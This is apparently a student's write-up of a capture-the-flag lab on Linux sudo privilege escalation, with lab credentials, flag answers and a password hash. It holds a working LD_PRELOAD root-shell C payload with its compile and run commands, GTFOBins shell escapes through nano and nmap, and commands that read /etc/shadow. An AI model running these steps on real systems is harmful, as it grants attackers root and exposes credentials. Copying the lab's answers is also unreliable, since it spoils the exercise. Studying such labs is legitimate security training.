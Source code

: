 **Note: Launch the target machine attached to this task to follow along.**

**You can launch the target machine and access it directly from your browser.**

**Alternatively, you can access it over SSH with the low-privilege user credentials below:  
**

**Username: karen**

**Password: Password1**

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

**Leverage application functions**  

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

![](https://i.imgur.com/rNpbbL8.png)  

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

**Leverage LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option.

![](https://i.imgur.com/gGstS69.png)  

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}  

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

![](https://i.imgur.com/1YwARyZ.png)  


### Answers


| Question                                                                          | Answer |
| --------------------------------------------------------------------------------- | ----------------------- |
| How many programs can the user "karen" run on the target system with sudo rights? | 3                       |

![[Pasted image 20231212234544.png]]



| Question                                   | Answer        |
| ------------------------------------------ | ------------- |
| What is the content of the flag2.txt file? | THM-402028394 |


Check root privileges:

![[Pasted image 20231212232827.png]]

Use nano (fom gtfobins):

![[Pasted image 20231212232927.png]]


```
sudo nano
ctrl+C, ctrl+x
reset; sh 1>&0 2>&0
```

![[Pasted image 20231212233323.png]]

The flag is in /home/ubuntu:

![[Pasted image 20231212233753.png]]


| Question                                                                           | Answer                  |
| ---------------------------------------------------------------------------------- | ----------------------- |
| How would you use Nmap to spawn a root shell if your user had sudo rights on nmap? | sudo nmap --interactive |

From gtfobins:

![[Pasted image 20231212235006.png]]


| Question                              | Answer                                                                                                     |
| ------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| What is the hash of frank's password? | $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1 |

```
cat /etc/shadow
```

![[Pasted image 20231213000321.png]]
